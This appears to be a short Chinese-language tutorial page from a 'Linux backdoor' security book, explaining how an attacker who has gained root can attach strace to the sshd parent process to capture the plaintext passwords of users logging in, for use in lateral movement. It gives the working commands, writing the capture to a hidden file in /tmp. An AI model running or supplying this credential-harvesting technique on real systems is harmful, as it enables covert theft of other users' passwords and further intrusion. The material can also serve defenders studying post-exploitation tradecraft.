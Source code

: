 # strace 监听 ssh 来源流量

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/6.html](http://book.iwonder.run/安全技术/Linux 后门/6.html)

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取 root 权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用 strace 来监听登陆本地的 sshd 流量。

```
ps -ef | grep sshd #父进程 PID
strace -f -p 12617 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048 
```

![image](img/f9e9c8e6564ca46b1affe1a04ce8d2b4.png)

![image](img/0c61cb3dbc035f9267de9ac116263f85.png)

